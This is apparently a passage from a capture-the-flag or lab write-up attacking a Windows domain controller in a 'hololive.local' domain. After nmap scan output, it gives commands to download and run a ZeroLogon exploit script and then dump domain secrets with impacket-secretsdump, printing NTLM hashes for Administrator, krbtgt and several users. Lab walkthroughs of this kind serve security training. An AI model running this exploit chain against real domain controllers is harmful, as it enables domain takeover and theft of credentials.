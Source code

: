 ```text
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44856/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58805/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55710/udp): CLEAN (Timeout)
|   Check 4 (port 28882/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.80 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.080KB)
```

Get the `zeroLogon-NullPass.py` python script:

    wget https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py

Exploit the domain controller:

```text
$ python zeroLogon-NullPass.py DC01 <IP target>

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 321
Zero Logon successfully exploited, changing password.
```

Dump secrets:

```text
$ impacket-secretsdump -just-dc -no-pass DC01\$@<IP target>
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
```